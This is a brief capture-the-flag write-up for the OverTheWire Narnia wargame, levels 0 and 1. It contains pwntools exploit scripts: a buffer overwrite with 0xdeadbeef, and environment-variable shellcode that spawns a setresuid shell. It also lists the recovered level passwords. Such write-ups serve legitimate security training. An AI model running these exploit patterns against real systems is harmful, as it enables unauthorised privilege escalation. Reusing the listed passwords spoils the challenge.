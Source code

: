 
**Narnia 0**
ssh: `ssh narnia0@narnia.labs.overthewire.org -p 2226`
exploit:
```python
from pwn import *

e = ELF("/narnia/narnia0")
context.log_level = 'debug' #mostra inpiut e output
context.binary = e #si adatta al formato dell'elf

p = process()
payload = b'B'*20 + p32(0xdeadbeef)
p.sendafter('\n', payload)
p.interactive()
```
password in `/etc/narnia_pass/narnia1`: eaa6AjYMBB

---
**Narnia 1**
exploit:
```python
from pwn import *

e = ELF("/narnia/narnia1")
context.log_level = "debug"
context.binary = e

p = process(e.path, env = {'EGG':asm(shellcraft.setresuid() + shellcraft.sh())})
p.interactive()
```
password: Zzb6MIyceT